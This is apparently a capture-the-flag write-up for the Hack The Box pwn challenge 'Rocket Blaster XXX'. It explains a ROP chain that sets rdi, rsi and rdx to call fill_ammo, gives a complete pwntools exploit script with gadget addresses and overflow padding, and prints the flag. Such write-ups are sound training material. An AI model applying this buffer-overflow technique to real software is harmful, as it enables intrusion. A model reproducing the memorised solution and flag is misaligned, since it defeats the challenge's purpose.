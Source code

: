 # Rocket Blaster XXX

## Solution
ROP chain challenge where you need to follow proper x64 calling conventions such that the function will look like `fill_ammo(0xdeadbeef, 0xdeadbabe, 0xdead1337)`. This requires that:
- `rdi` => `0xdeadbeef`
- `rsi` => `0xdeadbabe`
- `rdx` => `0xdead1337`
## Solve Script
``` python
from pwn import *
from ctfkit.bp import *

context.binary = 'rocket_blaster_xxx'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

# gadgets
g_pop_rdi = 0x40159f
g_pop_rsi = 0x40159d
g_pop_rdx = 0x40159b
g_ret = 0x40101a

# functions
f_fill_ammo = 0x4012f5

def main():
  proc = get_process()

  # call fill_ammo(0xdeadbeef, 0xdeadbabe, 0xdead1337)
  payload = b''.join([
    b'A'*0x28,
    p64(g_pop_rdi),
    p64(0xdeadbeef),
    p64(g_pop_rsi),
    p64(0xdeadbabe),
    p64(g_pop_rdx),
    p64(0xdead1337),
    p64(g_ret), # used for stack alignment
    p64(f_fill_ammo)
  ])

  proc.sendlineafter(b'>> ', payload)
  proc.interactive()

if __name__ == '__main__':
  parse_args()
  main()
```

Flag: HTB{b00m_b00m_r0ck3t_2_th3_m00n}